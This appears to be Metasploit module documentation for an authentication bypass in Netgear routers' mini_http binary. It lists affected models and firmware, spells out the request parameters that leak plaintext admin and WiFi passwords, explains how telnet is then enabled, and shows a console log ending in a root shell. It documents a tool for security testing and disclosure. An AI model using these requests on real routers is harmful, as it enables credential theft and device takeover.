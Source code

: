 ## Vulnerable Application

### Intro
This module targets an authentication bypass vulnerability in the `mini_http` binary of several Netgear Routers
running firmware versions prior to `1.2.0.88`, `1.0.1.80`, `1.1.0.110`, and `1.1.0.84`.

Specifically, a call to `strstr()` is used to check if any incoming requests to authenticated pages contain
the string `todo=PNPX_GetShareFolderList` anywhere within the request. If this string is found anywhere within
the request, the request will be marked as an authenticated request, and will be treated as though it came from
a logged in administrative user.

By using this vulnerability to send a request to `/setup.cgi` with the `next_file` GET parameter set to `BRS_swisscom_success.html`
and a `x` GET parameter set to `todo=PNPX_GetShareFolderList`, an unauthenticated attacker can leak the plaintext versions of
all of the router's WiFi passwords, as well as the admin username and plaintext admin password for the router.

Once the password has been been obtained, the exploit enables telnet on the target router by sending a request to `setup.cgi`
with the `todo` GET parameter set to `debug`. Once telnet has been enabled, it then utilizes the
`auxiliary/scanner/telnet/telnet_login` module to log into the router using the stolen credentials of the
`admin` user. This will result in the attacker obtaining a new telnet session as the `root` user.

This vulnerability was discovered and exploited by an independent security researcher who reported it to SSD.

### Affected Versions

- AC2100 prior to firmware version 1.2.0.88
- AC2400 prior to firmware version 1.2.0.88
- AC2600 prior to firmware version 1.2.0.88
- D7000 prior to firmware version 1.0.1.80
- R6220 prior to firmware version 1.1.0.110
- R6230 prior to firmware version 1.1.0.110
- R6260 prior to firmware version 1.1.0.84
- R6330 prior to firmware version 1.1.0.84
- R6350 prior to firmware version 1.1.0.84
- R6700v2 prior to firmware version 1.2.0.88
- R6800 prior to firmware version 1.2.0.88
- R6850 prior to firmware version 1.1.0.84
- R6900v2 prior to firmware version 1.2.0.88
- R7200 prior to firmware version 1.2.0.88
- R7350 prior to firmware version 1.2.0.88
- R7400 prior to firmware version 1.2.0.88
- R7450 prior to firmware version 1.2.0.88

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass`
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Verify that you get a new telnet shell as the `root` user on the target router.

## Options

## Scenarios

### Netgear AC1600 aka R6260 with Firmware Version 1.1.0.40_1.0.1
```
        msf6 > use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass
        msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > show options

        Module options (auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass):

        Name     Current Setting  Required  Description
        ----     ---------------  --------  -----------
        Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
        RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                        oit
        RPORT    80               yes       The target port (TCP)
        SSL      false            no        Negotiate SSL/TLS for outgoing connections
        VHOST                     no        HTTP server virtual host

        msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > set RHOSTS 192.168.1.1
        RHOSTS => 192.168.1.1
        msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > check

        [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
        [*] 192.168.1.1:80 - The target appears to be vulnerable.
        msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > exploit
        [*] Running module against 192.168.1.1

        [*] Running automatic check ("set AutoCheck false" to disable)
        [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
        [+] The target appears to be vulnerable.
        [*] Attempting to leak the password of the admin user...
        [+] Can log into target router using username admin and password theRiverOfNope123!
        [*] Attempting to retrieve /top.html to verify we are logged in!
        [*] Sending one request to grab authorization cookie from headers...
        [*] Got the authentication cookie, associating it with a logged in session...
        [+] Successfully logged into target router using the stolen credentials!
        [*] Attempting to store the stolen admin credentials for future use...
        [*] Enabling telnet on the target router...
        [+] Telnet enabled on target router!
        [*] Attempting to log in with admin:theRiverOfNope123!. You should get a new telnet session as the root user
        [*] Command shell session 1 opened (192.168.224.128:45717 -> 192.168.1.1:23) at 2021-09-23 16:38:53 -0500
        [*] Auxiliary module execution completed
        msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > sessions -i 1
        [*] Starting interaction with 1...



        # uname -a
        uname -a
        Linux R6260 2.6.36 #7 SMP Fri Jul 20 17:14:50 CST 2018 mips unknown

        # busybox
        busybox
        BusyBox v1.12.1 (2018-07-18 20:59:15 CST) multi-call binary
        Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko
        and others. Licensed under GPLv2.
        See source distribution for full notice.

        Usage: busybox [function] [arguments]...
        or: function [arguments]...

                BusyBox is a multi-call binary that combines many common Unix
                utilities into a single executable.  Most people will create a
                link to busybox for each function they wish to use and BusyBox
                will act like whatever it was invoked as!

        Currently defined functions:
                [, [[, arp, ash, awk, basename, bunzip2, bzcat, cat, chmod, chpasswd,
                cp, cut, date, dd, df, dmesg, echo, expr, false, fdisk, find, free,
                ftpget, grep, gzip, halt, head, hexdump, hostname, ifconfig, init,
                init, insmod, kill, killall, ln, login, ls, lsmod, md5sum, mdev,
                mkdir, mknod, more, mount, mv, netstat, nice, passwd, pidof, ping,
                ping6, poweroff, ps, pwd, reboot, renice, rm, rmmod, route, sed,
                seq, sh, sleep, sync, tail, tar, taskset, telnetd, test, tftp,
                time, top, touch, tr, traceroute, true, umount, uname, unzip, vconfig,
                vi, wc, wget

        #
```
